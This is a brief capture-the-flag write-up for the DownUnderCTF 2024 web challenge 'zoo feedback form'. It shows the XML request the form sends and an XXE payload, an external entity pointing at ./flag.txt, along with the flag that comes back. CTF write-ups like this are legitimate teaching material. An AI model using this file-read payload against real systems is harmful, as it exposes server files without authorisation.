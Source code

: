 ```yaml
---
title: "zoo feedback form"
description: "The zoo wants your feedback! Simply fill in the form, and send away, we'll handle it from there!"
pubDate: 2024-07-10
ctf: "DownUnderCTF 2024"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/24-downunder/icon.png"
---
```




We are given both a web source code zip and an instance.

![zoofeedbackform](images/24-downunder/zoofeedbackform.png)

It reflects what we type, lets see whats going on in the request when I press `Submit Feedback`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
            <root>
                <feedback>hi!!</feedback>
            </root>
```

Hm, XML has some common attacks such as [XXE](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity). I look at the source code and see we need to read a `./flag.txt`.

Looking at the XXE example payloads I craft a file read payload like this:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY example SYSTEM "./flag.txt"> ]>
            <root>
                <feedback>&example;</feedback>
            </root>
```

Let's try it!

`Feedback sent to the Emus: DUCTF{emU_say$_he!!0_h0!@_ci@0}`

Flag: `DUCTF{emU_say$_he!!0_h0!@_ci@0}`